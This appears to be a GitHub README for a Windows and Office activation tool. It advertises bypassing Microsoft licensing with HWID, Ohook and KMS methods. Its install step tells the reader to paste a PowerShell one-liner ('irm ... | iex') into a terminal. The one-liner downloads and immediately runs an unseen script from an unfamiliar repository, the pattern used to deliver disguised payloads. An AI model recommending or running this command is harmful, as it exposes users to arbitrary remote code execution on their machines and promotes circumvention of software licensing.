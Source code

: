 # Microsoft Offices Activator (MOA)

A Windows and Office activator using HWID / Ohook / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections
Features
HWID (Digital License) Method to Permanently Activate Windows
Ohook Method to Permanently Activate Office
KMS38 Method to Activate Windows/Server Till the Year 2038
Online KMS Method to Activate Windows/Server/Office For 180 Days (Lifetime With Renewal Task)
Advanced Activation Troubleshooting
$OEM$ Folders For Preactivation
Change Windows Edition
Check Windows/Office Activation Status
Available in All In One and Separate Files Versions
Fully Open Source and Base

# PowerShell

Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
Copy and paste the code below and press enter
# irm https://raw.githubusercontent.com/0x3c62723e/MOA/main/git.ps1 | iex
